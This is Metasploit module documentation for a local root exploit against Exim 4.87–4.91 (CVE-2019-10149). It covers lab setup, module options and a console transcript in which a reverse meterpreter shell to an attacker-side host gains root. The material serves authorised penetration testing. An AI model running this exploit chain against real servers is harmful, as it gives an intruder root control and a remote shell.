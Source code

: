 ## Vulnerable Application

Exim 4.87 - 4.91 Local Privilege Escalation

This module exploits a flaw found in Exim versions 4.87 to 4.91 (inclusive). Improper validation of recipient address in deliver_message() function in /src/deliver.c may lead to command execution with root privileges (CVE-2019-10149). 

Both meterpreter shell and classic shell are supported. The exploit will upload the specified `payload`, set the suid bit, and execute it to create a new root session. In order for the new session to be a root one, both `PrependSetuid` and `PrependSetgid` must be set to true (which is the default configuration for the exploit), and the `WritableDir` must be mounted without `nosuid`.

# Creating A Testing Environment

You basically just need to have a exim (between 4.87 and 4.91 inclusive) running and listening on a port (port 25 by default).
For my tests, I used a VM with Ubuntu 18.04 LTS and exim 4.89 (I tested all the versions from 4.87 to 4.91). The exim source code can be downloaded from the official website (all the old versions can be found).
You can also use this good Docker image which sets up a container with a vulnerable exim version running (https://github.com/dhn/exploits/tree/master/CVE-2019-10149).
Be careful if you use the exim package from the official repo of your Linux distribution, even if the version is between 4.87 and 4.91, it may still be patched against the vulnerability (it is the case on Ubuntu at least).

Before using the exploit, make sure exim is actually listening on a port (it may sound stupid, but I struggled a bit when creating a testing environment). However, you should not have any problem if you use the Docker image linked above.

# Verification Steps

1. `use exploit/linux/local/exim4_deliver_message_priv_esc`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

# Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## EXIMPORT

The port that exim is listening to. On most cases it will be port 25 (which is the default).

## ForceExploit

Force exploit even if the current session is root.
    
## SendExpectTimeout

Timeout per send/expect when communicating with exim.

## WritableDir

A directory where we can write files (default is /tmp).


# Scenarios

## Privilege escalation starting with a meterpreter shell

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > 
Background session 1? [y/N]  
msf5 exploit(multi/handler) > use exploit/linux/local/exim4_deliver_message_priv_esc 
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lhost 192.168.0.50
lhost => 192.168.0.50
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lport 13371
lport => 13371
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set EXIMPATH /usr/exim/bin/exim
EXIMPATH => /usr/exim/bin/exim
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > check
[*] The target appears to be vulnerable.
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > exploit

[*] Started reverse TCP handler on 192.168.0.50:13371 
[*] Payload sent, wait a few seconds...
[*] Sending stage (985320 bytes) to 192.168.0.80
[*] Meterpreter session 2 opened (192.168.0.50:13371 -> 192.168.0.80:45562) at 2019-07-07 23:46:37 +0100
[+] Deleted /tmp/eMhzFtUYGQ
[+] Check session 2, you should have a root shell!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.80
OS           : Ubuntu 18.04 (Linux 4.18.0-25-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
